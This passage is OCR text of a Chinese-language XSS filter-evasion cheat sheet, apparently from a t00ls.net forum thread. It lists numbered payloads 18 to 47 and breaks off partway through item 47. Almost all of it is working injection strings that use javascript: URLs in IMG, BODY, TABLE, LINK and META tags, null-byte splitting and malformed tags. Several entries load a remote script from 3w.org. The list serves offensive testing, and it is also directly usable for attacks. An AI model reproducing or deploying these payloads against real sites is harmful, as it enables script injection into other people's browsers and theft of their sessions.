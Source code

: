 ```text
perl -e ‘print “<IMG SRC=java\0script:alert(\”XSS\”)>”;’ > out
(18)空字符,空字符在国内基本没效果.因为没有地方可以利用
perl -e ‘print “<SCR\0IPT>alert(\”XSS\”)</SCR\0IPT>”;’ > out
(19)Spaces和meta前的IMG标签
<IMG SRC=” javascript:alert(‘XSS’);”>
(20)Non-alpha-non-digit XSS
<SCRIPT/XSS SRC=”http://3w.org/XSS/xss.js”></SCRIPT>
(21)Non-alpha-non-digit XSS to 2
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(“XSS”)>
(22)Non-alpha-non-digit XSS to 3
<SCRIPT/SRC=”http://3w.org/XSS/xss.js”></SCRIPT>
(23)双开括号
<<SCRIPT>alert(“XSS”);//<</SCRIPT>
(24)无结束脚本标记(仅火狐等浏览器)
<SCRIPT SRC=http://3w.org/XSS/xss.js?<B>
(25)无结束脚本标记2
<SCRIPT SRC=//3w.org/XSS/xss.js>
(26)半开的HTML/JavaScript XSS
<IMG SRC=”javascript:alert(‘XSS’)”
(27)双开角括号
<iframe src=http://3w.org/XSS.html <
(28)无单引号 双引号 分号
<SCRIPT>a=/XSS/
alert(a.source)</SCRIPT>
(29)换码过滤的JavaScript
\”;alert(‘XSS’);//
(30)结束Title标签
</TITLE><SCRIPT>alert(“XSS”);</SCRIPT>
(31)Input Image
<INPUT SRC=”javascript:alert(‘XSS’);”>
(32)BODY Image
<BODY BACKGROUND=”javascript:alert(‘XSS’)”>
(33)BODY标签
<BODY(‘XSS’)>
(34)IMG Dynsrc
<IMG DYNSRC=”javascript:alert(‘XSS’)”>
(35)IMG Lowsrc
<IMG LOWSRC=”javascript:alert(‘XSS’)”>
(36)BGSOUND
<BGSOUND SRC=”javascript:alert(‘XSS’);”>
(37)STYLE sheet
<LINK REL=”stylesheet” HREF=”javascript:alert(‘XSS’);”>
(38)远程样式表
<LINK REL=”stylesheet” HREF=”http://3w.org/xss.css”>
(39)List-style-image(列表式)
<STYLE>li {list-style-image: url(“javascript:alert(‘XSS’)”);}</STYLE><UL><LI>XSS
(40)IMG VBscript
<IMG SRC=’vbscript:msgbox(“XSS”)’></STYLE><UL><LI>XSS
(41)META链接url
<META HTTP-EQUIV=”refresh” CONTENT=”0;
URL=http://;URL=javascript:alert(‘XSS’);”>
(42)Iframe
<IFRAME SRC=”javascript:alert(‘XSS’);”></IFRAME>
(43)Frame
<FRAMESET><FRAME SRC=”javascript:alert(‘XSS’);”></FRAMESET>12-7-1 T00LS - Powered by Discuz! Board
https://www.t00ls.net/viewthread.php?action=printable&tid=15267 3/6
(44)Table
<TABLE BACKGROUND=”javascript:alert(‘XSS’)”>
(45)TD
<TABLE><TD BACKGROUND=”javascript:alert(‘XSS’)”>
(46)DIV background-image
<DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>
(47)DIV background-image后加上额外字符(1-32&34&39&160&8192-
```
